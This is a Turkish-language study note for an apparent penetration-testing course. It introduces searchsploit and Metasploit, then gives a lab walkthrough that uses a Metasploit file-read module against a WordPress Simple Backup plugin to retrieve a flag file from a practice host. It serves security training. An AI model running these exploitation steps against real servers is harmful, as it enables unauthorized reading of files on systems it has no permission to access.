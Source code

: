 ```yaml
---
icon: material/help
---
```


# Public Exploits

## Finding Public Exploits

Güvenlik açıklarını aramak için `searchsploit` isimli aracı (Ubuntu için mevcut olmayabilir) kullanabiliriz.

Aracı yükle:

```bash
sudo apt update && sudo apt install -y exploitdb
```

Örnek bir arama gerçekleştir:

```bash
searchsploit openssh 7.2
```

## Metasploit Primer

MSF (Metasploit Framework), sızma testi için kullanılabilecek faydalı araçlardan birisidir. Birçok güvenlik açığına yönelik yerleşik istismarlar içerir. Araca ait bazı özellikler aşağıda verilmiştir:

* Hedefi gerçekten tehlikeye atmadan bir güvenlik açığının varlığını test etmek için doğrulama komut dosyaları içerir.
* Uzak bilgisayarları numaralandırmak için keşif komut dosyaları çalıştırabilir.
* Shell bağlantısı ve güvenliği ihlal edilmiş hedefler üzerinde komutlar çalıştırmak için kullanılan Meterpreter isimli aracı içerir.
* Birçok post-exploitation ve pivoting (lateral movement) aracı içerir.

MSF aşağıdaki komut ile sisteme yüklenebilir:

```bash
sudo apt update && sudo apt install -y metasploit-framework
```

Aşağıda Msfconsole aracı için bazı kullanım örnekleri verilmiştir:

| Command | Description |
|:---|:---|
| `msfconsole` | Konsol başlatılır. |
| `search` | Çeşitli aramalar gerçekleştirilir. |
| `help search` | Arama ile ilgili yardım görüntülenir. |
| `use` | Verilen bir modül kullanılır. |
| `show options` | Modül seçenekleri görüntülenir. |
| `set` | Modül seçenekleri ayarlanır. |
| `check` | Hedefin savunmasız olup/olmadığı kontrol edilir. |
| `exploit` | Exploit başlatılır. |
| `exit` | Konsol kapatılır. |

## Questions

```text
Try to identify the services running on the server above, and then try to search to find public exploits to exploit them. Once you do, try to get the content of the '/flag.txt' file. (note: the web server may take a few seconds to start)
```

??? tip "Steps"

    Soruda verilen hedef makine adresini tarayıcı arama çubuğuna gir ve adrese git.

    Açılan sayfada `Simple Backup Plugin 2.7.10 for WordPress` başlığına vurgu yapıldığını görebilirsin. Ardından Msfconsole içinde aşağıdaki aramayı gerçekleştir:

    ```text
    search wordpress backup
    ```

    Çıkan sonuçlardan Simple Backup ile ilgili olan [modülü](https://www.rapid7.com/db/modules/auxiliary/scanner/http/wp_simple_backup_file_read/) kullan. Bu modül sayesinde dosyalar web sunucusu ayrıcalıklarıyla okunabilir:

    ```text
    use auxiliary/scanner/http/wp_simple_backup_file_read
    ```

    Modüle ait seçenekleri `show options` ile görüntüledikten sonra gerekli seçenekler ayarlanmalıdır. Soruda kök dizin `/` altındaki `flag.txt` dosyasının içeriğine ulaşmamız istendiğinden `FILEPATH` seçeneğinin değeri `flag.txt` olarak ayarlanmalıdır:

    ```text
    set FILEPATH flag.txt
    ```

    RHOSTS değerini ayarla:

    ```text
    set RHOSTS 94.237.49.11
    ```

    RPORT değerini ayarla:

    ```text
    set RPORT 49656
    ```

    Exploit başlat:

    ```text
    exploit
    ```

    Modül yürütmesi tamamlandıktan sonra `flag.txt` dosyası çıktıda belirtilen konuma kaydedilecektir. Konsolu kapattıktan sonra bu dosyanın içeriğini görüntüle:

    ```bash
    cat /home/user/.msf4/loot/20231103053630_default_94.237.49.11_simplebackup.tra_535374.txt
    ```
